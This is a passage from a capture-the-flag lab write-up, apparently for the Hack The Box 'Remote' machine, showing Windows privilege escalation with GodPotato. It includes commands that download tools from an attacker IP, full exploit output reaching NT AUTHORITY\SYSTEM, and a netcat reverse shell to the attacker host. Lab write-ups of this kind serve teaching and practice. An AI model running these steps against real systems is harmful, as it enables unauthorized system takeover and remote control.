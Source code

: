 ```bash
```

Because we have the ```SeImpersonatePrivilege``` Enabled, we can use GodPotato to Escalate Privileges to ```NT AUTHORITY\SYSTEM``` and collect both ```user.txt``` and ```root.txt``` flags.
Download GodPotato.exe, transfer it to the victim machine and run it following the instructions found at ```https://github.com/BeichenDream/GodPotato```

```bash
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET2.exe

```

```bash
PS C:\windows\system32\inetsrv>cd C:\Users\Public
PS C:\users\Public> curl http://10.10.16.4:80/GodPotato-NET2.exe -o GodPotato.exe
PS C:\users\Public> curl http://10.10.16.4:80/nc.exe -o nc.exe
PS C:\users\Public> ./GodPotato.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140710504890368
[*] DispatchTable: 0x140710507207920
[*] UseProtseqFunction: 0x140710506583200
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\d203b39c-c20c-4667-bc14-498b715c273d\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00000c02-0d0c-ffff-4e8b-1b121ceb6a31
[*] DCOM obj OXID: 0x4d0843b11995267c
[*] DCOM obj OID: 0xc8df792cf275fa65
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 860 Token:0x808  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 3248
nt authority\system
PS C:\users\Public>
```
Don't forget to start a new listener on the attacker machine!
```bash
┌──(Kyd0s㉿kali)-[~/HTB/Remote]
└─$ nc -nvlp 5555
listening on [any] 5555 ...
```

```bash
PS C:\users\Public> ./GodPotato.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 10.10.16.4 5555"

```
